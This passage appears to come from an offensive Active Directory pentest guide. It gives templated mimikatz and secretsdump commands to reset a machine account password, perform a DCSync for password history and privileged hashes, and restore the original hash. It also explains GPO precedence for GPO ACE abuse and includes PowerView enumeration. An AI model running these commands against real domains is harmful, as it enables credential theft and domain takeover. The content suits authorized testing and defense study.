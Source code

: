 ```
net user <MACHINE_ACCOUNT> <NEW_PASSWORD> /domain

# The Domain Controller specified using <DOMAIN_CONTROLLER_FQDN> or <DOMAIN_CONTROLLER_IP>  must be consistent across commands.
mimikatz # lsadump::setntlm /server:<DOMAIN_CONTROLLER_FQDN> /user:<MACHINE_ACCOUNT> /password:<NEW_PASSWORD>

# Conducts DRSUAPI replication operations (DCSync attack) to retrieve the history of the targeted computer account passwords (as well as privileged domain accounts if necessary).   
secretsdump.exe -history -dc-ip <DOMAIN_CONTROLLER_IP> [-just-dc-user <MACHINE_ACCOUNT>] '<DOMAIN>/<MACHINE_ACCOUNT>:<NEW_PASSWORD>@<DOMAIN>'
# Restores the previous computer account password using its NTLM hash.
lsadump::setntlm /server:<DOMAIN_CONTROLLER_FQDN> /user:<MACHINE_ACCOUNT> /ntlm:<ORIGINAL_NTLM>
```

### GPO ACEs exploitation

###### GPO enforcement

GPO can be linked to an Organizational Unit (OU) but not necessarily applied,
as an OU can `blocks inheritance` on an not `enforced` linked (`GPLink`) GPO or
a conflicting GPO with a higher precedence order may supplant the exploitable
GPO.

The precedence order respect the principle that, in case of conflicting
settings in GPOs, the last GPO applied will overwrite any settings applied
earlier and the GPO closest to the client location in the directory structure
will be applied last. Concretely, the precedence order is as follow (from the
applied first / lowest in the precedence order to the applied last / highest in
the precedence order):
  - local GPO
  - site GPO
  - domain GPO
  - OU (for nested OU, the GPO closer to the object being the highest in the
    precedence order)

Others mechanisms, such as `WMI filtering` (which restrains the application of
the GPO depending on the result of a true / false WMI query), or `Security
filtering` (which restrains to specific members - users and groups - of
security groups) may further influence the GPO enforcement.

For now, `BloodHound` takes into account the `block inheritance` / `enforced`
mechanism but not the precedence order nor the `WMI filtering` and `security
filtering`.

`PowerView` can also be used to find where exploitable GPO are linked and
**possibly** applied by retrieving the `GPLink` attribute of an OU.

```
Get-DomainOU -GPLink "<GPO_GUID>" | ForEach-Object {
    Get-DomainComputer -SearchBase "LDAP://$($_.distinguishedname)" | Ft Name
}

# With Credential and Server
Get-DomainOU -Server <DC> -Credential <PSCredential> -GPLink "<GPO_GUID>" | ForEach-Object {
    Get-DomainComputer -Server <DC> -Credential <PSCredential> -SearchBase "LDAP://$($_.distinguishedname)" | Ft Name
}
```
